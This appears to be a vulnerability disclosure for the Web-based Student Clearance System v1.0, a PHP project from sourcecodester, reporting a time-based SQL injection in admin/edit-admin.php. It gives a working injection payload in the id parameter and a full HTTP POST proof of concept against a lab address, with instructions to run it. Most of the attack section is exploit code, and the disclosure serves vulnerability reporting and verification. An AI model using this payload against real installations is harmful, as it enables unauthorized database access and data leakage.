 # Vulnerability Description

[The Web-based Student Clearance System v1.0](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html) was discovered to contain a SQL injection vulnerability via the edit-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/). This vulnerability can lead to database information leakage.

1. BUG_Author: Tr0e
  
2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
  

# Vulnerability Verification

[+] Payload:

```java
4'and(select*from(select+sleep(2))a/**/union/**/select+1)='
```

POC：

```js
POST http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4'and(select*from(select+sleep(2))a/**/union/**/select+1)=' HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 467
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=rbcvgagjbbad1bbrbb62nukgmc
Connection: close

------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="txtfullname"

EKE, EMMANUEL EFA-EVAL
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="txtemail"

11112222
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="cmddesignation"

Admin
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz--
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above.

The vulnerability is located at the "User Management - Users Record - Admin Record - Action - Edit" function, you shuold inserts Payload when you edit User Profile，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194559271-51d6d5ce-fb00-4f18-ab1c-22cdca39cdcc.png)
![image](https://user-images.githubusercontent.com/42080954/194559487-a552942b-d307-4ea5-9c66-60c112d99f8d.png)

